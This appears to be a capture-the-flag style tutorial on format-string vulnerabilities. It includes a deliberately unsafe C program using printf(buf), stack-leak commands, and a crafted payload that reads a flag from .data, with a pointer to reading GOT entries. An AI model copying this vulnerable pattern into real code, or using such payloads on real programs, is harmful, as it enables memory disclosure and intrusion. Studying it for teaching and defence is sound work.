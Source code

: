 ## Example: read string from a location in memory (like a flag)

```c
#include<stdio.h>

/* This will be in .data */
static char flag[] = "flag{y_u_so_good}";

int main(int argc, char** argv) {
	if(argc < 2) {
		printf("Usage: %s your_message\n", argv[0]);
		return 1;
	}
	printf("Hello there. You requested the following string to be printed: '%s'\n", argv[1]);
	char buf[64];
	strncpy(buf, argv[1], 63); buf[63] = 0;
	printf("Unsafe printing: ");
	printf(buf);
	printf("\nGoodbye.\n");

	return 0;
}
```

Compiling:
```bash
$ gcc -m32 -o fmt_arbitrary_read fmt_arbitrary_read.c 
```

Printing out the stack and finding our four A's (0x41414141):
```
$ ./fmt_arbitrary_read "AAAA%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x"
Hello there. You requested the following string to be printed: 'AAAA%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x'
Unsafe printing: AAAAbffff7b0 0000003f bffff664 ffffffff bffff59e b7e2fbf8 41414141 78383025 38302520 30252078 25207838 20783830
Goodbye.
```

Great, so they're the seventh block being printed. Let's change the four A's with the location of the flag in the binary:
```
$ r2 -q -c 'iz~flag' fmt_arbitrary_read
vaddr=0x0804a02c paddr=0x0000102c ordinal=000 sz=18 len=17 section=.data type=a string=flag{y_u_so_good}
```

The flag is at `0x0804a02c`, now we just print the seventh argument on the stack:
```
$ ./fmt_arbitrary_read $(perl -e 'print "\x2c\xa0\x04\x08%7\$p"')
Hello there. You requested the following string to be printed: ',%7$p'
Unsafe printing: ,0x804a02c
Goodbye.
$ ./fmt_arbitrary_read $(perl -e 'print "\x2c\xa0\x04\x08%7\$s"')
Hello there. You requested the following string to be printed: ',%7$s'
Unsafe printing: ,flag{y_u_so_good}
Goodbye.
```

Note that it prints a comma before the flag itself. This is because our format string `\x2c\xa0\x04\x08%7\$s` is also printed. printf() just starts printing the bytes in this string (`\x2c\xa0\x04\x08`) until in encounters the format string `%7$s` which causes it do go on the stack, get the seventh argument and print that.


Or more useful is actually reading the GOT entries using this technique. See example 04 in this folder for an example of that.
